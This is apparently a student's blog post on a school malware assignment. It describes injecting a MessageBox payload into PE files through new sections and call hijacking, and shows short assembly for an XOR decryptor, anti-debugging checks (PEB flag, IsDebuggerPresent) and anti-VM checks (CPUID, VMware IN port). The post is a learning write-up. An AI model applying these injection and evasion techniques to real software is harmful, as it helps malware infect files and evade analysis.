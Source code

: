 ```yaml
---
title: "Malware assignment"
author: "thunebae"
date: 2022-07-19T12:00:06+09:00
description: "Some experiment demo with everything that I study in school. Simple, unrealistic but I spend a lot of time on it. "
tags:
- thunebae
- project
series:
- Project
categories:
- Project
libraries:
- Project
image: "/images/project/malware/virus.png"
---
```


### Framework: pefile python 
### Ex1 -  File Infecting Virus
{{% alert theme="info" %}}**📑 CHALL 1:** Add a new sectiion in pe file or use .reloc section to contain virus (Simple MessageBox). When program start, call virus first and program run normally. {{% /alert %}}

Honestly it's not a virus, it's not contagious. It's just an experiment on inject pe file. Maybe If I has more time to do, I think I can make it...umh contagious😳

{{% alert theme="info" %}}**📑 CHALL 2:** Call hijacking - Like challenge before, but somewhere call instruction in .text section is overwrited by call virus but the program still run normally {{% /alert %}}

I scan all pe file with opcode E8 (opcode of call instruction) start AddressOfEntryPoint (make sure program must run over this instruction), so I pick a first call instruction and overwrite it's `call_offset` by `virus_offset`. After execute MessageBox, we need an instruction to call back a function with `call_offset` overwrited.

**Problem**: need to save registers before execute MessageBox and restore registers to make everything right with an overwrited call after execute MessageBox.

*You can see ource code and more detail by view report assignment at* {{< color "#0000ff" >}}<a href="https://github.com/thunebae/Malware/tree/main/Ex1" title="Github">Github</a>
{{< /color >}}

### Ex1 -  Advanced Virus Techniques
#### 1. Simple XOR-decryptor virus.
Simple MessageBox shellcode encrypted store in new section and decryptor locates in other section. When program start run, `call decryptor` first (AddressOfEntryPoint), decrypt ciphertext and call plaintext shellcode. After all, call old AddressOfEntryPoint that make program run normally.

{{< highlight asm "linenos=table,linenostart=0" >}}
.virus: 01020000
.decryptor: 0101F000
.entry-point: 01012475

lea esi, [0x01020000]
mov ecx, 0x128
xor [esi], ecx
xor [esi], esi
add esi, 4
sub ecx, 4
cmp ecx, 0
jnz 0xFFFFFFED
call 0x00000FDD
{{< / highlight >}}

#### 2. Anti-debugging
{{% alert theme="info" %}}**📑 METHOD 1:** Use BeingDebugged in PEB structure at **fs:[30] + 2** {{% /alert %}}

- BeingDebugged = 0: don't detect debugger, jump decryptor.

- BeingDebugged # 0: detect debugger, don't decrypt ciphertext, (call old AddressOfEntryPoint)

{{< highlight asm "linenos=table,linenostart=0" >}}
mov eax, fs:[0x30]
xor ebx, ebx
mov bl, [eax+2]
test bl, bl
jz 0X0000001E
mov eax, 01012475
call eax
lea esi, [virus]
mov ecx, 0x128
xor [esi], ecx
xor [esi], esi
add esi, 4
sub ecx, 4
cmp ecx, 0
jnz virus
call OldEntryPoint
{{< / highlight >}}

It's maybe fool by edit register store values **fs:[30] + 2** to 0 in debugger 😕. So it's just experiment, I can't think more.

{{% alert theme="info" %}}**📑 METHOD 2:** Windows API – IsDebuggerPresent() {{% /alert %}}

I was written a C++ program to compile shellcode to call IsDebuggerPresent() by using offset of this API call in it's library - kernell32.dll, compile to assembly, edit something, export to .exe file and copy shellcode to my target inject PE file. You can see how to do it at {{< color "#0000ff" >}}<a href="https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c" title="Github">Writing and Compiling Shellcode in C</a>
{{< /color >}}
 
- eax = 0: run the following instruction, program run normally.

- eax # 3, decryptor decrypt section .virus, call MessageBox and call old AddressOfEntryPoint.

{{< highlight asm "linenos=table,linenostart=0" >}}
call IsDebuggerPresent()
cmp eax, 0x3
jnz 0x7
mov eax, OldEntryPoint
call eax
lea esi, [virus]
mov ecx, 0x128
xor [esi], ecx
xor [esi], esi
add esi, 4
sub ecx, 4
cmp ecx, 0
jnz virus
call OldEntryPoint
{{< / highlight >}}

#### 3. Anti-VM
{{% alert theme="info" %}}**📑 METHOD 1:** CPUID instruction {{% /alert %}}

*Easy method to implement but also easy to fool it*

CPUID instruction is the command to check the processor information. With input eax=1, if the 31st bit of the ecx output is 1, the application is in a virtual machine environment.

*How to fool this method?* One can configure in the .vmx file to change the ecx output if input eax=1 in the VMWare virtual machine. So you can bypass this check.

{{< highlight asm "linenos=table,linenostart=0" >}}
xor    eax, eax
inc    eax
cpuid
bt     ecx, 0x1f
jb     0x23
lea esi, [virus]
mov ecx, 0x128
xor [esi], ecx
xor [esi], esi
add esi, 4
sub ecx, 4
cmp ecx, 0
jnz virus
call 0x00000FD2
mov eax, OldEntryPoint
call eax
{{< / highlight >}}

{{% alert theme="info" %}}**📑 METHOD 2:** IN instruction {{% /alert %}}

*When I do this method, I think I will give up because fcking SEH is not working but luckily, it works, but only for calc.exe :<<*

IN tutorial is use a read a port, at here port to read is port 0x5658 - ‘VX’. It requires SEH to handle exception because if VMWare not running, port isn't openning, so nothing can't be read and a execute_exception_handler occurs. So we need something like "try...except" and SEH is a structure management it.

{{< img src="/images/project/malware/in.png" title="Hình 1" caption="IN instruction" alt="IN instruction" >}}
*You can see ource code and more detail by view report assignment at* {{< color "#0000ff" >}}<a href="https://github.com/thunebae/Malware/tree/main/Ex2" title="Github">Github</a>
{{< /color >}}